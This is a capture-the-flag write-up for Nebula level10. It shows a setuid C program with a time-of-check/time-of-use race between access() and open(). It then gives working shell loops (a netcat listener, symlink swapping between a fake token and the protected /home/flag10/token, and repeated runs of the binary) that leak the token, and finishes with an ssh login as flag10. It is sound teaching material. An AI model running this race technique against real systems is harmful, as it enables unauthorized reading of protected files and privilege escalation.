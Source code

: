 +++
author = "pwntester"
categories = ["nebula10"]
date = 2013-11-23T11:35:00Z
description = ""
draft = false
slug = "nebula-level10-write-up"
tags = ["nebula10"]
title = "Nebula level10 write-up"

+++

In [Level10](http://exploit-exercises.com/nebula/level10) we are given a vulnerable piece of code:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

There is a clear **TOCTOU** (Time of check, Time of use) vulnerability. The code checks if the file belongs can be accessed by the user calling the application and if so, it sends it over the wire. The problem is that  there is no guarantee that the file that is sent is the same one that was checked with **access()** and we can try to exploit this **race condition** by being faster than the code :D
In order to do so we will need different moving parts:

* A listener waiting for the token. We will implement this using **netcat**. We will simply loop **nc** so that it accepts new connections when done with the previous one. We will also output whatever we receive to the **out** file. We will look for our token there:

```lang-bash line-numbers 
level10@nebula:~$ while true; do nc -lnp 18211 >> out; done
```

* We will create a fake token file that belongs to us so we can use the **flag10** program to send it to any host. We will place it on /tmp/faketoken and it will contain "wrong token, keep trying!":

```lang-bash line-numbers 
level10@nebula:~$ echo "wrong token, keep trying!" > /tmp/faketoken
```

* We will start a loop that creates a symbolic link in /home/level10/token pointing to /tmp/faketoken and will alternate it with the real token at /home/flag10/token:

```lang-bash line-numbers 
level10@nebula:~$ while true; do ln -fs /tmp/faketoken token; ln -fs /home/flag10/token token; done
```

* All we need to do now is start the **flag10** program:

```lang-bash line-numbers 
level10@nebula:~$ while true; do /home/flag10/flag10 /home/level10/token 127.0.0.1; done
```

* Tailing **/home/level10/out** we will see the token appear very quickly:

```lang-bash line-numbers 
level10@nebula:~$ tail -f out
oO Oo.
wrong token, keep trying!
.oO Oo.
wrong token, keep trying!
.oO Oo.
wrong token, keep trying!
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
wrong token, keep trying!
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
...
...
```

* Login as flag10 and get the flag:
```lang-bash line-numbers 
alvaro@winterfell ~> ssh flag10@nebula

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


flag10@nebula's password:
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '12.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag10@nebula:~$ id
uid=989(flag10) gid=989(flag10) groups=989(flag10)
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```

Voila!!





